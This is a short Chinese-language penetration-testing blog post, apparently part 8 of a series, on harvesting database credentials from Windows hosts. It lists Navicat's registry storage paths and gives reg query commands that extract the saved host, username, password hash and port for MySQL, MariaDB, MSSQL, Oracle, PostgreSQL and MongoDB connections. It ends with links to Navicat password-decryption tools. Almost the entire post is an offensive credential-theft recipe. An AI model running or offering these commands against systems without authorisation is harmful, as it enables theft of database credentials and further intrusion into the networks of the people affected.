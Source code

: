 # 内网渗透-Windows凭据收集之数据库凭据(8)

  
  
&lt;!--more--&gt;  
## 目录  
### Navicat存储各类数据库的路径  
```  
MySQL HKEY_CURRENT_USER\Software\PremiumSoft\Navicat\Servers\  
MariaDB HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMARIADB\Servers\  
MongoDB HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMONGODB\Servers\  
Microsoft SQL HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMSSQL\Servers\  
Oracle HKEY_CURRENT_USER\Software\PremiumSoft\NavicatOra\Servers\  
PostgreSQL HKEY_CURRENT_USER\Software\PremiumSoft\NavicatPG\Servers\  
SQLite HKEY_CURRENT_USER\Software\PremiumSoft\NavicatSQLite\Servers\  
```  
### 查询Mysql信息\[默认3306端口\]  
```  
reg query HKEY_CURRENT_USER\SOFTWARE\PremiumSoft\Navicat\Servers /s /v host 数据库连接ip  
reg query HKEY_CURRENT_USER\SOFTWARE\PremiumSoft\Navicat\Servers /s /v UserName 数据库用户名  
reg query HKEY_CURRENT_USER\SOFTWARE\PremiumSoft\Navicat\Servers /s /v pwd 密码hash  
reg query HKEY_CURRENT_USER\SOFTWARE\PremiumSoft\Navicat\Servers /s /v Port 数据库连接端口  
```  
### 查询Mssql信息\[默认1433端口\]  
```  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMSSQL\Servers /s /v host  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMSSQL\Servers /s /v UserName  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMSSQL\Servers /s /v pwd  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMSSQL\Servers /s /v Port  
```  
### 查询MariaDb信息\[默认3306端口\]  
```  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMARIADB\Servers /s /v host  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMARIADB\Servers /s /v UserName  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMARIADB\Servers /s /v pwd  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMARIADB\Servers /s /v Port  
```  
### 查询Oracle信息\[默认1521端口\]  
```  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatOra\Servers /s /v host  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatOra\Servers /s /v UserName  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatOra\Servers /s /v pwd  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatOra\Servers /s /v Port  
```  
### 查询PostgreSQL信息\[默认5432端口\]  
```  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatPG\Servers /s /v host  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatPG\Servers /s /v UserName  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatPG\Servers /s /v pwd  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatPG\Servers /s /v Port  
```  
### 查询MongoDB信息\[默认27017端口\]  
```  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMONGODB\Servers /s /v host  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMONGODB\Servers /s /v UserName  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMONGODB\Servers /s /v pwd  
reg query HKEY_CURRENT_USER\Software\PremiumSoft\NavicatMONGODB\Servers /s /v Port  
```  
  
  
## 工具  
https://github.com/pxss/navicatpwd  
https://github.com/HyperSine/how-does-navicat-encrypt-password/tree/master/python3  
  

---

> Author: N1Rvana  
> URL: http://localhost:1313/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F-windows%E5%87%AD%E6%8D%AE%E6%94%B6%E9%9B%86%E4%B9%8B%E6%95%B0%E6%8D%AE%E5%BA%93%E5%87%AD%E6%8D%AE8/  


